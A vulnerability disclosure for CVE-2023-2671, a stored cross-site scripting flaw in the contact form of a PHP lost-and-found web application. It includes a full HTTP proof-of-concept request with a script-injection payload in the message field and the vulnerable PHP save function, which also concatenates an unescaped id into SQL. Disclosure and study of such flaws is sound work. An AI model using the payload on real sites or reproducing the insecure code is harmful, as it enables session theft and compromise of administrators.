 # Exploit Title: SOURCECODESTER LOST AND FOUND INFORMATION SYSTEM 1.0 CONTACT FORM MASTER.PHP FULLNAME/CONTACT/MESSAGE CROSS SITE SCRIPTING

A vulnerability classified as problematic has been found in SourceCodester Lost and Found Information System 1.0. Affected is an unknown function of the file classes/Master.php?f=save_inquiry of the component Contact Form. The manipulation of the argument fullname/contact/message leads to cross site scripting
### Date: 
> 12 May 2023

### ID: CVE-2023-2671
### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [LOST AND FOUND INFORMATION SYSTEM](https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> items/view.php


### Description:
> A vulnerability was found in SourceCodester Lost and Found Information System 1.0. It has been rated as problematic. This issue affects an unknown functionality of the file classes/Master.php?f=save_inquiry of the component Contact Form. The manipulation of the argument fullname/contact/message with an unknown input leads to a cross site scripting vulnerability. Using CWE to declare the problem leads to CWE-79. The software does not neutralize or incorrectly neutralizes user-controllable input before it is placed in output that is used as a web page that is served to other users
### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: /php-lfis/?page=contact
2. Post content to form
Request
```
POST /php-lfis/classes/Master.php?f=save_inquiry HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------22907560349085467073379285206
Content-Length: 793
Origin: http://localhost
Connection: close
Referer: http://localhost/php-lfis/?page=contact
Cookie: remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; __atuvc=1%7C16; PHPSESSID=kt5sfckl2e0fle94p3bdha9n45
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------22907560349085467073379285206
Content-Disposition: form-data; name="id"


-----------------------------22907560349085467073379285206
Content-Disposition: form-data; name="visitor"


-----------------------------22907560349085467073379285206
Content-Disposition: form-data; name="fullname"

Tuan
-----------------------------22907560349085467073379285206
Content-Disposition: form-data; name="email"

test4@gmail.comapins
-----------------------------22907560349085467073379285206
Content-Disposition: form-data; name="contact"

122222222
-----------------------------22907560349085467073379285206
Content-Disposition: form-data; name="message"

1"><script>alert('XSS')</script>
-----------------------------22907560349085467073379285206--


```
3. Go to admin and view message /php-lfis/admin/?page=inquiries/view_inquiry&id=

4. Result
![image info](./img/cve-2023-2671.PNG)

5. CODE VULNERABLE
```
<?php
function save_inquiry(){
		extract($_POST);
		$data = "";
		foreach($_POST as $k =>$v){
			if(!in_array($k,array('id', 'visitor'))){
				if(!empty($data)) $data .=",";
				$v = htmlspecialchars($this->conn->real_escape_string($v));
				$data .= " `{$k}`='{$v}' ";
			}
		}
		if(empty($id)){
			$sql = "INSERT INTO `inquiry_list` set {$data} ";
		}else{
			$sql = "UPDATE `inquiry_list` set {$data} where id = '{$id}' ";
		}
			$save = $this->conn->query($sql);
		if($save){
			$resp['status'] = 'success';
			if(empty($id)){
				if(!isset($visitor))
					$resp['msg'] = "New Inquiry successfully saved.";
					else
					$resp['msg'] = "Your Message has been sent successfully. We will reach out using your contact information as soon as we sees your message. Thank you!";
			}else
				$resp['msg'] = " Inquiry successfully updated.";
		}else{
			$resp['status'] = 'failed';
			$resp['err'] = $this->conn->error."[{$sql}]";
		}
		if($resp['status'] == 'success')
			$this->settings->set_flashdata('success',$resp['msg']);
			return json_encode($resp);
	}
```

